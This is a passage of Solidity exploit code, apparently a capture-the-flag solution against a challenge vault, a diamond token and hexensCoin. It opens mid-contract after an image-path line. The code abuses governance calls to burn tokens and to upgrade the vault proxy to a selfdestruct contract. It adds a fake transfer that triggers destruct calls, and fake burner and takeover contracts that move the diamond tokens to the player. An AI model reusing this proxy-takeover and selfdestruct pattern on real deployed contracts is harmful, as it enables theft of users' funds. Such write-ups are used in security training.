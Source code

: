 ```solidity

    constructor(Challenge _setup) {
        // Initialize challenge contracts
        setup = _setup;
        vault = setup.vault();
        diamond = setup.diamond();
        hexensCoin = setup.hexensCoin();

        // Allow the Exploit contract to transfer all of this contract's hexensCoin tokens
        hexensCoin.approve(msg.sender, type(uint256).max);
    }

    function transfer(address to, uint256 amount) external returns (bool) {
        Burner(to).destruct();
        Burner(to).destruct();
        Burner(to).destruct();
        return true;
    }

    function stealDiamonds() public {
        vault.governanceCall(
            abi.encodeCall(vault.burn, (address(diamond), 31337))
        );
        Destructor destructor = new Destructor();
        vault.governanceCall(
            abi.encodeCall(vault.upgradeTo, (address(destructor)))
        );
        Destructor(address(vault)).destruct();
    }
}

contract Destructor {
    function destruct() public {
        selfdestruct(payable(msg.sender));
    }

    function proxiableUUID() external view returns (bytes32) {
        return
            0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    }
}

contract NeploxDiamond is ERC20 {
    constructor() ERC20("NeploxDiamond", "Neplox") {}
}

contract FakeBurner {
    constructor(address player, Diamond diamond) {
        diamond.transfer(player, diamond.balanceOf(address(this)));
    }
}

contract TakeOverVault {
    function solve(address player, Diamond diamond) external {
        new FakeBurner(player, diamond);
    }

    function proxiableUUID() external view returns (bytes32) {
        return
            0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    }
}

```